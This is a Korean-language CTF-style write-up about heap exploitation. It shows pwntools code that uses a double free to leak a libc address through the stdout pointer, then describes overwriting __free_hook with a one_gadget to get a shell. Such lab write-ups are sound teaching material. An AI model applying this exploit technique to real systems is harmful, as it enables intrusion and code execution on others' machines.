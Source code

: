 ```python
    p.sendlineafter(b'Edit\n', b'4')
    p.sendafter(b'chunk: ', content)

alloc(48, b'AAAA')
free()
edit(b'A'*8 + b'\x00')
free()

addr_stdout_pointer = e.symbols['stdout']
print('stdout pointer addr : ', hex(addr_stdout_pointer))

alloc(48, p64(addr_stdout_pointer))
alloc(48, b'BBBB')

_io_2_1_stdout_lsb = p64(libc.symbols['_IO_2_1_stdout_'])[0:1]
alloc(0x30, _io_2_1_stdout_lsb)

print3()

p.recvuntil(b'Content: ')
leak_stdout = u64(p.recv(6).ljust(8, b'\x00'))

print('leak_stdout addr : ', hex(leak_stdout))

libc_base = leak_stdout - libc.symbols['_IO_2_1_stdout_']
print('libc base : ',hex(libc_base))

p.interactive()
```


<img width="1167" height="550" alt="image (8)" src="https://github.com/user-attachments/assets/512d371f-9381-413d-8326-7dcf0ba9fce1" />

여기까진 성공이다.  

이제 __free_hook overwriting 을 해주자.   

__free_hook overwriting이란 free() 함수가 호출될 때 원래 free() 함수 대신 내가 지정한 함수로 가게금 만드는 것이다. 여기서 내가 지정한 함수는 원가젯에서 /bin/sh 을 실행하는 함수이다.  

아까 처음에 했던 것 처럼, 더블 프리버그를 일으키고 __free_hook 주소를 fd 에 넣어둔다.  
그러고 __free_hook 얘를 부른 다음에 원가젯을 적어 넣으면 free()를 트리거로 원가젯이 실행되어 쉘이 터질거다.  

이제 원가젯부터 차근차근 찾아보자.  

<br>

<img width="1425" height="519" alt="image" src="https://github.com/user-attachments/assets/c36190f2-7f5c-4978-847f-7c700bb4e16b" />

이렇게 원가젯 후보들을 쭉 나열해봤다.  
free hook offset 도 같이 띄워두긴 했지만 이건 나중에 제대로 써먹어보자.  

<br>

<img width="1423" height="269" alt="image" src="https://github.com/user-attachments/assets/5a24d43d-31e6-410b-9ce4-2b1bc411db45" />
